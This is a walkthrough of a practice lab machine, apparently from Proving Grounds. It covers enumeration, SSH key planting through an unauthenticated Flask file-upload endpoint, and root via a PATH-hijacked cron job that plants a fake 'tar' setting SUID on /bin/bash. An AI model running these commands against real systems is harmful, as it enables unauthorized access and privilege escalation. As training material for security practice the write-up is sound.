

# Enumeration

## nmap scan

```bash
nmap -Pn -p- --open -sC -sV -O -T4 -v -oA nmap/Amaterasu 192.168.150.249
PORT      STATE SERVICE VERSION                                                                                                                                        
21/tcp    open  ftp     vsftpd 3.0.3                                                                                                                                   
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                                                 
|_Can't get directory listing: TIMEOUT                                                                                                                                 
| ftp-syst:                                                                                                                                                            
|   STAT:                                                                                                                                                              
| FTP server status:                                                                                                                                                   
|      Connected to 192.168.45.213                                                                                                                                     
|      Logged in as ftp                                                                                                                                                
|      TYPE: ASCII                                                                                                                                                     
|      No session bandwidth limit                                                                                                                                      
|      Session timeout in seconds is 300                                                                                                                               
|      Control connection is plain text                                                                                                                                
|      Data connections will be plain text                                                                                                                             
|      At session startup, client count was 2                                                                                                                          
|      vsFTPd 3.0.3 - secure, fast, stable                                                                                                                             
|_End of status                                                                                                                                                        
25022/tcp open  ssh     OpenSSH 8.6 (protocol 2.0)                                                                                                                     
| ssh-hostkey:                                                                                                                                                         
|   256 68:c6:05:e8:dc:f2:9a:2a:78:9b:ee:a1:ae:f6:38:1a (ECDSA)                                                                                                        
|_  256 e9:89:cc:c2:17:14:f3:bc:62:21:06:4a:5e:71:80:ce (ED25519)                                                                                                      
33414/tcp open  http    Werkzeug httpd 2.2.3 (Python 3.9.13)                                                                                                           
|_http-title: 404 Not Found                                                                                                                                            
|_http-server-header: Werkzeug/2.2.3 Python/3.9.13                                                                                                                     
40080/tcp open  http    Apache httpd 2.4.53 ((Fedora))                                                                                                                 
|_http-title: My test page                                                                                                                                             
| http-methods:                                                                                                                                                        
|   Supported Methods: HEAD GET POST OPTIONS TRACE                                                                                                                     
|_  Potentially risky methods: TRACE                                                                                                                                   
|_http-server-header: Apache/2.4.53 (Fedora)                                                                                                              
```


## FTP

Since anonymous login is enabled, well see what information we can get from the service

```bash
🟠卐pyro ॐ ~/Documents/ProvingGrounds/LinuxBoxes/Amaterasu❯❯ ftp anonymous@192.168.150.249                                                                                       
Connected to 192.168.150.249.                                                                                                                                          
220 (vsFTPd 3.0.3)
Name (192.168.150.249:pyro): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||22515|)
pwd
^C
receive aborted. Waiting for remote to finish abort.
ftp> pwd
Remote directory: /
ftp> cd /home
550 Failed to change directory.
ftp> dir
229 Entering Extended Passive Mode (|||10454|)
^C
receive aborted. Waiting for remote to finish abort.
ftp> ls -al
229 Entering Extended Passive Mode (|||24406|)
^C
receive aborted. Waiting for remote to finish abort.
ftp> 

```


Unfortunately couldn't browse the service, so nothing here

## HTTP

Browsing to port 33414 the page is no longer there


Using ffuf to enumerate directories, we discover 2 API endpoints `/help` and `/info`

```bash
🟠卐pyro ॐ ~/Documents/ProvingGrounds/LinuxBoxes/Amaterasu❯❯ ffuf -u http://192.168.150.249:33414/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt                                                                                                                                                                      

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.150.249:33414/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

help                    [Status: 200, Size: 137, Words: 19, Lines: 2, Duration: 120ms]                                                                                 
info                    [Status: 200, Size: 98, Words: 14, Lines: 2, Duration: 119ms]
:: Progress: [4750/4750] :: Job [1/1] :: 153 req/sec :: Duration: [0:00:30] :: Errors: 0 ::
```

The `/help` endpoint shows we can make a GET request to `/file-list` with a query parameter `dir=/tmp` that list files in the `/tmp` directory on the server. 
It also shows we can upload files to the server with the POST request



The `/info` endpoint shows a name Alfredo Moroder most likely the developer


Let's see if we can use curl to see the contents of the `/tmp` directory

```bash
🟠卐pyro ॐ ~/Documents/ProvingGrounds/LinuxBoxes/Amaterasu❯❯ curl -i http://192.168.150.249:33414/file-list\?dir\=/tmp                                                 
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.9.13
Date: Tue, 20 Jan 2026 12:15:04 GMT
Content-Type: application/json
Content-Length: 563
Connection: close

["flask.tar.gz","systemd-private-aaf3eff3160545eab079c1428e55f60d-httpd.service-ahY8MS","systemd-private-aaf3eff3160545eab079c1428e55f60d-ModemManager.service-yphYDm","systemd-private-aaf3eff3160545eab079c1428e55f60d-systemd-logind.service-pY2DMM","systemd-private-aaf3eff3160545eab079c1428e55f60d-chronyd.service-Wrr8N4","systemd-private-aaf3eff3160545eab079c1428e55f60d-dbus-broker.service-EZf7Au","systemd-private-aaf3eff3160545eab079c1428e55f60d-systemd-resolved.service-Hibhb0","systemd-private-aaf3eff3160545eab079c1428e55f60d-systemd-oomd.service-yES4xZ"]
```

`flask.tar.gz` shows that the Flask source code or related files are there. Before going deep into that I want to see if i can use `?dir=` parameter to view other directories. 

Since we know the web server is running on linux and we have a username Alfredo I want to see if i can access his home directory.

```bash
🟠卐pyro ॐ ~/Documents/ProvingGrounds/LinuxBoxes/Amaterasu❯❯ curl -i http://192.168.150.249:33414/file-list\?dir\=/home/alfredo                                        
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.9.13
Date: Tue, 20 Jan 2026 12:27:44 GMT
Content-Type: application/json
Content-Length: 88
Connection: close

[".bash_logout",".bash_profile",".bashrc","local.txt",".ssh","restapi",".bash_history"]

```

A lot of interesting file but we can't access because the `?dir=` parameter only works on directory paths and not for reading files.

We can test if we can use `/file-upload` to upload files to the `/tmp` directory. I will create a text file to test this 

```bash
🟠卐pyro ॐ ~/Documents/ProvingGrounds/LinuxBoxes/Amaterasu❯❯ echo "Hello World" > test.txt                                                                             
🟠卐pyro ॐ ~/Documents/ProvingGrounds/LinuxBoxes/Amaterasu❯❯ ls                                                                                                        
test.txt
🟠卐pyro ॐ ~/Documents/ProvingGrounds/LinuxBoxes/Amaterasu❯❯ cat test.txt                                                                                              
Hello World
🟠卐pyro ॐ ~/Documents/ProvingGrounds/LinuxBoxes/Amaterasu❯❯
```

Use the POST method on curl to upload the file

```bash
curl -i -L -H "Content-Type: multipart/form-data" -F file="@/home/pyro/Documents/ProvingGrounds/LinuxBoxes/Amaterasu/test.txt" -F filename="/tmp/test.txt" http://192.168.150.249:33414/file-upload 
Server: Werkzeug/2.2.3 Python/3.9.13
Date: Tue, 20 Jan 2026 12:53:14 GMT
Content-Type: application/json
Content-Length: 41
Connection: close

{"message":"File successfully uploaded"}
```

We can confirm the file was actually uploaded

```bash
🟠卐pyro ॐ ~/Documents/ProvingGrounds/LinuxBoxes/Amaterasu❯❯ curl -i http://192.168.150.249:33414/file-list\?dir\=/tmp                                                 
HTTP/1.1 200 OK                                                                                                                                                        
Server: Werkzeug/2.2.3 Python/3.9.13
Date: Tue, 20 Jan 2026 12:56:00 GMT
Content-Type: application/json
Content-Length: 574
Connection: close

["test.txt","flask.tar.gz","systemd-private-aaf3eff3160545eab079c1428e55f60d-httpd.service-ahY8MS","systemd-private-aaf3eff3160545eab079c1428e55f60d-ModemManager.service-yphYDm","systemd-private-aaf3eff3160545eab079c1428e55f60d-systemd-logind.service-pY2DMM","systemd-private-aaf3eff3160545eab079c1428e55f60d-chronyd.service-Wrr8N4","systemd-private-aaf3eff3160545eab079c1428e55f60d-dbus-broker.service-EZf7Au","systemd-private-aaf3eff3160545eab079c1428e55f60d-systemd-resolved.service-Hibhb0","systemd-private-aaf3eff3160545eab079c1428e55f60d-systemd-oomd.service-yES4xZ"]
```


# Exploitation

Since we can upload files to the `/tmp` directory we can use to get an ssh session by uploading a private key . We'll use ssh-keygen to create the public and private keys.

```bash
🟠卐pyro ॐ ~/Documents/ProvingGrounds/LinuxBoxes/Amaterasu❯❯ ssh-keygen                                                                            
Generating public/private ed25519 key pair.
Your identification has been saved in alf_rsa
Your public key has been saved in alf_rsa.pub
The key fingerprint is:
SHA256:f3dTBq6BBFjgksBl4gyyVSGx/jnBBjNgHpCrTGoAoto pyro@Kali
The key's randomart image is:
+--[ED25519 256]--+
|*=*+=..+o        |
|BBo* o.  .       |
|=oB o .   .   .  |
|+o = .   . . . . |
|B.. +   S . . . o|
|+oEo o   .   o ..|
|.   +     . o ...|
|     .     . . ..|
|                 |
+----[SHA256]-----+
🟠卐pyro ॐ ~/Documents/ProvingGrounds/LinuxBoxes/Amaterasu❯❯ ls                                                                                                        
alf_rsa  alf_rsa.pub  nmap  test.txt
```

Unfortunately due to our earlier tests we determine we cannot read or write files in the alfredo home directory, so how do we upload the public key to the .ssh folder?

We can transfer the contents of `alf_rsa.pub` to a text file 

```bash 
🟠卐pyro ॐ ~/Documents/ProvingGrounds/LinuxBoxes/Amaterasu❯❯ cat alf_rsa.pub > alf_rsa.pub.txt                                                                     
🟠卐pyro ॐ ~/Documents/ProvingGrounds/LinuxBoxes/Amaterasu❯❯ ls                                                                                                        
alfredo_key  alfredo_key.pub  alf_rsa.pub.txt  nmap  test.txt
```

Then upload it to the .ssh directory

```bash
🟠卐pyro ॐ ~/Documents/ProvingGrounds/LinuxBoxes/Amaterasu❯❯ curl -X POST --form "file=@alf_rsa.pub.txt" --form "filename=/home/alfredo/.ssh/authorized_keys" http://192.168.150.249:33414/file-upload                                                                                                                     
{"message":"File successfully uploaded"}
```


Now to the same with the private key 

```bash
curl -X POST --form "file=@alf_rsa.txt" --form "filename=/home/alfredo/.ssh/alf_rsa" http://192.168.150.249:33414/file-upload                                                                                                                        
{"message":"File successfully uploaded"}
```


Now to use ssh to login


# Privilege Escalation

Decided to check the crontab for cronjobs

```bash
[alfredo@fedora ~]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed

*/1 * * * * root /usr/local/bin/backup-flask.sh
[alfredo@fedora ~]$ 

```

We see the is a cronjob running in the root folder. Checking the content of the script, the cronjob runs as root every minute changes to `/home/alfredo/restapi`, and tars everything there into `/tmp/flask.tar.gz`. 

```bash
[alfredo@fedora ~]$ cat /usr/local/bin/backup-flask.sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *

```

Let's check the contents of the `restapi` directory to see if we have write permissions

```bash
[alfredo@fedora ~]$ ls -la /home/alfredo/restapi/
total 8
drwxr-xr-x. 3 alfredo alfredo   54 Mar 28  2023 .
drwx------. 4 alfredo alfredo  127 Mar 28  2023 ..
drwxr-xr-x. 2 alfredo alfredo   32 Mar 28  2023 __pycache__
-rw-r--r--. 1 alfredo alfredo  198 Mar 28  2023 app.py
-rw-r--r--. 1 alfredo alfredo 2509 Mar 28  2023 main.py
```

Looks like we do. Now we can write a siple one-liner to change our user to root and save it in the tar file and ensure we give it execution permissions

```bash
[alfredo@fedora ~]$ echo "chmod u+s /bin/bash" > /home/alfredo/restapi/tar
[alfredo@fedora ~]$ chmod +x /home/alfredo/restapi/tar
```

Then we wait for a minute and run `/bin/bash -p` and now we are the root user


Fully ROOTED!!

Note:
In future articles i will also put obstacles and mistakes I met and made along the way.
